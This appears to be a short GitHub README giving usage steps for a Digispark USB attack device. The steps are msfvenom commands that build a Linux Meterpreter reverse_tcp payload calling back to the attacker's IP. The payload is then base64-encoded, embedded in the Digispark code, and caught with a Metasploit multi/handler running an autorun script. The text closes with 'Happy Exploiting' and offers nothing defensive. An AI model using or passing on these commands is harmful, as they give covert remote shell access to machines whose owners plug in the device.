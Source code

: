 ## How to use:

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=YOURIP LPORT=880 -f elf > mShell_880`


`base64 mShell_880 > mShell_880.b64`

Copy the base64 code thing into the digispark code.


New terminal window: 


`sudo msfconsole`


`use multi/handler`


`set PAYLOAD linux/x86/meterpreter/reverse_tcp`


`set LHOST YOURIP`


`set LPORT 880`


`set AutoRunScript multi_console_command -rc /root/autoruncommands.rc`


`exploit`


Then upload the new digispark code onto it and done! Happy Exploiting.